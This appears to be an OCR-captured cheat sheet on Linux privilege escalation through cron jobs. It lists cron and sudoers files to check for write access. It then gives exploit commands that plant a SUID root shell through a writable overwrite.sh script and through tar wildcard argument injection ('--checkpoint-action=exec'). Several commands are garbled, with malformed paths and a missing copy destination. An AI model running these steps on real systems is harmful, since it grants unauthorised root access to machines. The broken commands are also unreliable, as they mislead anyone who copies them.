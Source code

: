 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
    cat /etc/crontab
    locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
      
    touch /home/user/overwrite.sh
    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
    chmod +x /home/user/overwrite.sh
    /tmp/bash -p




   ## compress.sh
   
    cat <PATH=compress.sh>
      
   ## OUTPUT
   
     #!/bin/sh
     cd /home/user
     tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
    echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
    chmod 777 asif.sh
    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\asif.sh
    /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
    locate overwrite.sh
    echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
    /tmp/bash -p
   
   
   
   
     

